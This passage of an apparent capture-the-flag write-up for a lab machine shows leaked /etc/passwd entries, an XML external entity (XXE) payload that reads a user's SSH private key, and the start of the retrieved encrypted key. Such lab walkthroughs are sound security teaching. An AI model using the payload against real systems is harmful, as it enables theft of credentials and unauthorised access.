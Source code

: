 ```text
joe:x:1002:1002::/home/joe:/bin/bash
barry:x:1003:1003::/home/barry:/bin/bash
```

Looking back at the adminpanel page source we see there is another comment at the bottom:

```text
    <!-- Barry, you can now SSH in using your key!-->
```

Now that we can now display the contents of files on the server, it's safe to assume this is our intended path. Assuming the SSH key is in the default location for Barry let's try to grab it:

```text
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment> 
```

We do indeed get the rsa key:

![mustacchio-rsa_key](/assets/images/2021-06-12-17-42-12.png)

## SSH Access

Copy and paste that in to a file on Kali:

```text
┌──(root💀kali)-[~/thm/mustacchio]
└─# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
<SNIP>
-----END RSA PRIVATE KEY-----
```
